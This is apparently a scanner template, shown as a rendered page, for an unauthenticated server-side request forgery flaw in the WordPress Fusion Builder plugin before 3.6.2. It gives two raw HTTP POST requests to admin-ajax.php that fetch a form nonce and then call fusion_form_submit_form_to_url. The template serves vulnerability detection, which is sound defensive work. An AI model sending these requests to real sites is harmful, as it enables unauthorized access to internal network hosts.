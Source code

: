 - part - header
- words
  1. application/octet-stream

---

# WordPress Fusion Builder < 3.6.2 - Unauthenticated SSRF

## Description

- The plugin, used in the Avada theme, does not validate a parameter in its forms which could be used to initiate arbitrary HTTP requests. The data returned is then reflected back in the application's response. This could be used to interact with hosts on the server's local network bypassing firewalls and access control measures.

- severity - critical
- tags - wpscan,cve,cve2022,wordpress,ssrf,themefusion,wp,fusion,avada

## Requests

### Step - 1

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: {{BaseURL}}
Referer: {{RootURL}}

action=fusion_form_update_view

```

### Step - 2

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: {{Hostname}}
Content-Type: multipart/form-data; boundary=---------------------------30259827232283860776499538268
Origin: {{BaseURL}}
Referer: {{RootURL}}

-----------------------------30259827232283860776499538268
Content-Disposition: form-data; name="formData"

email=example%40example.com&fusion_privacy_store_ip_ua=false&fusion_privacy_expiration_interval=48&priva
cy_expiration_action=ignore&fusion-form-nonce-0={{fusionformnonce}}&fusion-fields-hold-private-data=
-----------------------------30259827232283860776499538268
Content-Disposition: form-data; name="action"

fusion_form_submit_form_to_url
-----------------------------30259827232283860776499538268
Content-Disposition: form-data; name="fusion_form_nonce"

{{fusionformnonce}}
-----------------------------30259827232283860776499538268
Content-Disposition: form-data; name="form_id"

0
-----------------------------30259827232283860776499538268
```